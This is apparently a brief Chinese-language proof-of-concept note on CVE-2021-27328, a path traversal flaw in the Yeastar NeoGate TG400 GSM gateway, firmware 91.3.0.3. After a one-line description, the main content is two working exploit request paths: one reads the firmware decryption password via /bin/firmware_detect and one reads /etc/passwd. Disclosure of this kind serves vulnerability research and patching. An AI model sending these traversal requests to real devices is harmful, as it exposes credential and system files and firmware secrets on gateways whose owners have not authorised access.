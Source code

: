 # Yeastar-NeoGate
朗视 Yeastar NeoGate TG400 路径遍历漏洞CVE-2021-27328

漏洞描述
朗视 TG400 GSM 网关存在路径遍历 ，攻击者可以通过漏洞获取敏感信息
 
--------------------------------------------------------------------------------
 
漏洞影响
朗视 TG400 GSM 网关91.3.0.3

获取固件解密密码
/cgi/WebCGI?1404=../../../../../../../../../../bin/firmware_detect

/etc/passwd：
/cgi/WebCGI?1404=../../../../../../../../../../etc/passwd
